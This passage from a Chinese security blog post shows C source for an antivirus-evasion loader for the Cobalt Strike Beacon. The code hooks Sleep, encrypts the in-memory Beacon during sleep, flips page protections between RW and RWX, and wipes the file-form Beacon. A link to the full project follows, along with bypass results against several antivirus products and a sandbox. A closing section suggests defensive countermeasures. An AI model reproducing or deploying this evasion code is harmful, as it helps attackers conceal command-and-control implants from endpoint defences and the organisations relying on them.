    VirtualProtect(Beacon.address, Beacon.size, PAGE\_READWRITE, &oldProt);  
    printf("Beacon已加密并将内存页属性调整为 RW.\\n");  
}  
​  
void My\_Decrypt()  
{  
    // 定位到真正的 Beacon 内存页  
    MemoryAttrib Beacon \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    DWORD bufSize \= Beacon.size;  
    unsigned char\* buffer \= (unsigned char\*)(Beacon.address);  
    int bufSizeRounded \= (bufSize \- (bufSize % sizeof(unsigned int)));  
    //int bufsize = bufSize % sizeof(unsigned int);  
​  
    // 对 Beacon 进行加密或解密  
    //for (int i = 0; i < bufSizeRounded; i++)  
    //{  
    //  buffer\[i\] ^= memoryInfo.key;    // 简单的异或加解密  
    //}  
    AESDecode(buffer, bufSizeRounded);  
    //AESDecode(buffer,bufsize);  
​  
    DWORD oldProt;  
​  
​  
        // 将内存页设置为可读可写可执行  
    VirtualProtect(Beacon.address, Beacon.size, PAGE\_EXECUTE\_READWRITE, &oldProt);  
    printf("Beacon已解密并内存页属性调整为 RWX.\\n");  
}  
​  

/\*  
    内存扫描  
\*/  
​  
void ScanMemoryMap()  
{  
    // 内存块信息结构体  
    MEMORY\_BASIC\_INFORMATION mbi;  
​  
    LPVOID lpAddress \= 0;  
    HANDLE hProcess \= OpenProcess(MAXIMUM\_ALLOWED, FALSE, GetCurrentProcessId());  
​  
    int\* index \= &memoryInfo.index;  
​  
    while (VirtualQueryEx(hProcess, lpAddress, &mbi, sizeof(mbi)))  
    {  
        // 查找可读可写可执行内存页  
        if (mbi.Protect \== PAGE\_EXECUTE\_READWRITE || mbi.Protect \== PAGE\_EXECUTE && mbi.Type \== MEM\_PRIVATE)  
        {  
​  
            // 保存内存信息  
            memoryInfo.memoryPage\[\*index\].address \= mbi.BaseAddress;  
            memoryInfo.memoryPage\[\*index\].size \= (DWORD)mbi.RegionSize;  
            printf("BaseAddr = %p\\n", memoryInfo.memoryPage\[\*index\].address);  
            (\*index)++;  
​  
            if ((\*index) \>= 3)  
                break;  
        }  
        // 更新到下一个内存页  
        lpAddress \= (LPVOID)((DWORD\_PTR)mbi.BaseAddress + mbi.RegionSize);  
    }  
​  
    // 更新为已扫描内存  
    memoryInfo.isScanMemory \= TRUE;  
​  
    // 释放 shellcode 内存页  
    VirtualFree(memoryInfo.memoryPage\[0\].address, 0, MEM\_RELEASE);  
}  
​  
​  
/\*  
    beacon 运行时已经可以清除内存的其他痕迹了  
\*/  
void DeleteOther() {  
    //这里发现一个问题，memoryscan 之后，beacon 的地址不一定是在 filebeacon 之后，但是大小存在差异（拉伸后的 size 小于 file 的 size）;  
//所以这比较一下最后两个页，size 小的为拉伸后的 beacon，也就是需要加密的，size 大的为文件 beacon 直接初始化并修改内存属性为 rw；  
    MemoryAttrib beacon\_1 \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    MemoryAttrib beacon\_2 \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    //printf("beacon1.size : %d\\n", beacon\_1.size);  
    //printf("beacon2.size : %d\\n", beacon\_2.size);  
    if (beacon\_2.size \> beacon\_1.size) {  
        //printf("发生交换\\n");  
        MemoryAttrib beacon\_3 \= beacon\_2;  
        memoryInfo.memoryPage\[memoryInfo.index \- 1\] \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
        memoryInfo.memoryPage\[memoryInfo.index \- 2\] \= beacon\_3;  
    }  
​  
​  
    printf("FileBeacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 2\].address);  
    printf("Beacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 1\].address);  
​  
​  
    MemoryAttrib Beacon\_org \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    DWORD org\_bufSize \= Beacon\_org.size;  
    RtlSecureZeroMemory(Beacon\_org.address, org\_bufSize); // 文件形式的 beacon 消除  
    DWORD oldProt;  
    VirtualProtect(Beacon\_org.address, Beacon\_org.size, PAGE\_READWRITE, &oldProt);// 修改内存属性  
    printf("文件形式beacon已清除 \\n");  

    //RtlSecureZeroMemory(memoryInfo.shellcodeaddress,memoryInfo.shellcodesize ); // 残留的 shellcode 消除  
    printf("shellcode 地址：%x\\n", memoryInfo.shellcodeaddress);  
    memoryInfo.iscleaned \= TRUE;  
​  
​  
}  
//自定义函数指针函数  
static void(WINAPI\* OldSleep)(DWORD dwMilliseconds) \= Sleep;  
​  
void WINAPI My\_Sleep(DWORD dwMilliseconds) {  
    printf("调用sleep，休眠时间：%d\\n", dwMilliseconds);  
    //printf("oldsleep，地址是：0x%x\\n", OldSleep);  
    if (!memoryInfo.isScanMemory)   //扫描的动作只用发生一次  
        ScanMemoryMap();  
    if (!memoryInfo.iscleaned)  //清除动作只发生一次  
        DeleteOther();  
    My\_Encrypt();  
    OldSleep(dwMilliseconds);  
    My\_Decrypt();  
}  
​  
​  
void hookfun() {  
    DetourRestoreAfterWith();  
    DetourTransactionBegin();  
    DetourUpdateThread(GetCurrentThread());  
    DetourAttach(&(PVOID&)OldSleep, My\_Sleep);  
    //DetourAttach(&(PVOID&)OldVirtualAlloc, My\_VirtualAlloc);  
    if (0 \== DetourTransactionCommit())  
    {  
        printf("hooked succeed\\n");  
    }  
    else  
    {  
        printf("hook failed\\n");  
    }  
​  
}  
​
```

### 3、项目

上述所有代码项目地址：`https://github.com/minhangxiaohui/AvoidRandomKill`

# 0x04 免杀效果

## 360：


静态：


动态：



## 火绒：


静态：


动态：



## Kaspersky：




静态：



动态：



## 小红伞：

静态：


动态：这里被杀了



## windows defender:

静态：



动态：



## 微步在线沙箱：

`https://s.threatbook.com/report/file/0e91eeaf222c12231c4a808e0ff8a44e588768c2183325568387921277dccc01`


总体来看免杀效果还算是不错，可惜小红书的动态没过；

# 0x05 思考

作为蓝队角色，首先要践行“未知攻，焉知防”，学习攻击手段和技术方法；然后只有充分的了解了攻击的原理和授权，我们才能回过头来思考，如何与其对抗；笔者认为一个健康的学习过程，应该如此；

## 如何对抗文中免杀技术

这里我们主要来探讨下，如何对抗文中用到的动态免杀技术：

1、对抗反沙箱技术

-   （1、沙箱不要修改样本原文件的任何特征尤其是名字
    
-   （2、沙箱最好是能模拟真实互联网环境
    
-   （3、沙箱要做好一些能获取基础信息函数的 hook，比如 GetSystemInfo 这个 api，篡改返回值，这样一些尝试通过 cpu 个数来区分正式环境和沙箱环境的样本就不起作用了
    
-   （4、针对样本检测时间加速这个问题，沙箱最好是不要无脑 hook sleep 这个 api，而是要给其设置一个开关；当我们检测到代码中存在 GetTickCount 调用的时候，关闭 sleep 的 hook，这样就不会被样本发现时间被加速了；
    
-   （5、如果是免费对外开放使用的沙箱，不要在报告中暴露一些路径信息，可以将样本放到沙箱的桌面；
    
    > 其他的反反沙箱技巧也有很多，以上是对本文提到的反沙箱技巧的对抗
    

2、对抗反动态内存扫描技术

-   （1、针对项目中的动态内存加密：杀软可以对 `VirtualProtect`进行 hook（或者是更加底层的：`NtProtectVirtualMemory`），当发现其 flNewProtect 参数是`PAGE_EXECUTE_READWRIT`的时候，我们要对其尝试修改的 lpAddress 进行检查，使用内存扫描的 yara 规则，这样就可以及时准确的发现威胁。(上面小红伞感觉就是利用的这种方法，从而截杀的样本)
-   （2、杀软可以检查程序的“完整性”，扫描其 ring3 层的挂钩，劫持恶意样本自己的创建的挂钩；这就好比一些项目反杀软一样（如：[TartarusGate](https://forum.butian.net/share/%5BTartarusGate%5D(https%3A//github.com/trickster0/TartarusGate/tree/master))这个项目是二开[地狱之门](https://github.com/am0nsec/HellsGate)而来，其通过检查 api 的地址是否是以`e9`开始，也就是汇编中的 jmp 指令，如果发现了就更加上下的 api 来修复这个 api），直接以牙还牙；通过同样的方式，我们的杀软也可以去监测/卸载一些软件的 hook；
-   （3、可以通过行为配置动态内存扫描来对抗，例如杀软通过行为监控检测到一次 cmd 调用 whoami 的行为触发之后，杀软可以快速 dump 内存并扫描，这样可以及时的发现内存中还未来得及加密的内存，当然这里存在一个时间是否来得及的问题；

笔者才疏学浅，若文中存在错误观点，欢迎斧正。

参考：

[https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/artifacts-antivirus\_artifact-kit-main.htm#\_Toc65482774](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/artifacts-antivirus_artifact-kit-main.htm#_Toc65482774)

[https://maidang.cool/2022/26991.html](https://maidang.cool/2022/26991.html)

[https://github.com/SergeyBel/AES](https://github.com/SergeyBel/AES)

[https://github.com/mgeeky/ShellcodeFluctuation](https://github.com/mgeeky/ShellcodeFluctuation)

[https://forum.butian.net/share/2017](https://forum.butian.net/share/2017)

[https://forum.butian.net/share/1934](https://forum.butian.net/share/1934)
